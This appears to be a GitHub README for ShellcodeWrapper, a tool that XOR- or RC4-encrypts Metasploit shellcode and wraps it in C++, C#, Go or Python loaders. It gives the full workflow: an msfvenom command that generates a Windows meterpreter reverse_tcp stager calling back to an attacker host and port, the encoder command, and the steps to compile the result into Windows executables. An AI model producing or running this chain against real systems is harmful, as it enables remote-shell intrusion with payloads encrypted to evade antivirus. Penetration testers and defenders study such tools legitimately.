 Mutlibyte XOR or RC4 encrypted shellcode - Can run in Python3
============
Modify: Ch1ng

The technique uses two kind of code file:

1. The shellcode encoder/encrypter: `shellcode_encoder.py`
2. Various shellcode wrapper, in C++, C#, Binary and Python:
	- `encryptedShellcodeWrapper.cpp` - only supports XOR encryption
	- `encryptedShellcodeWrapper.go` - only supports XOR encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.py` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.bin` - supports both XOR and RC4 encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/ShellcodeWrapper ShellcodeWrapper`
* cd into the ShellcodeWrapper folder: `cd ShellcodeWrapper`
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), for example:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

In this example, the output is a raw (*unencoded & unencrypted*) reverse_tcp meterpreter stager for x86 platform. You should adapt it to your needs (*payload and parameters*).

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `rc4`
  - desired output: `base64`, `cpp`, `csharp`, `python`, `binary`, `go`

For instance, to xor encrypt the shellcode with the key '*thisismykey*' and get an output code file in C#, C++, Go, Binary and Python:
```
root@kali:~# ./shellcode_encoder.py -cpp -cs -py -bin -go shellcode.raw thisismykey xor
```
This will generate C#, C++, Go, Binary and Python code file in the `result` folder. Those files are ready to use/compile.

Eventually:

1. For the C++ wrapper, compile the C++ code file into a Windows executable: you can create a new VisualStudio project for **Win32 console application** and use the C++ code provided as the main file. Any other method of compilation will require slight adjustment of the C++ code (headers mostly).
2. For the C# wrapper, compile the C# code file into a Windows executable:
	`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:multibyteEncodeShellcode.exe multibyteEncodeShellcode.cs`
3. For the Python wrapper, just run it as a python script, or use PyInstaller to make it a Windows standalone executable
